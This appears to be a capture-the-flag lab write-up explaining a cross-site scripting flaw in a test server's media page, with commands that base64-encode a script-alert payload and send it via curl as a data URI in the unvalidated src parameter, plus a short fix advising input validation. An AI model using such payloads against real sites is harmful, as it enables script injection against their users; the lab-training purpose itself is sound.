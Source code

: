 # XSS Media Tag

In the home page there's only one image with a link. If you click this link you'll be redirected to the media page. The media page url accepts a src parameter that isn't validated by the server.

## Table of Contents

- [Steps](#Steps)
- [Vulnerabilities](#Vulnerabilities)
- [Ways to secure](#Ways to secure)

### Steps

* Go to the <a href="http://192.168.56.102/?page=media">media page</a>.
* Open terminal
* Run
```bash
        cd ./Resources
        
	py base64Encode.py "<script>alert('Game Over');</script>"
	#Above will output "Encoded value of str <script>alert('Game Over');</script> -> PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" 
```
* Now that we have our malicious content encrypted we can send it, run
```bash
	curl "http://192.168.56.102/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnR2FtZSBPdmVyJyk7PC9zY3JpcHQ+" | grep "flag"
```

##### Ways to secure
The best way to handle this is to validate and sanitize client input.
Fetch images from their src directory.
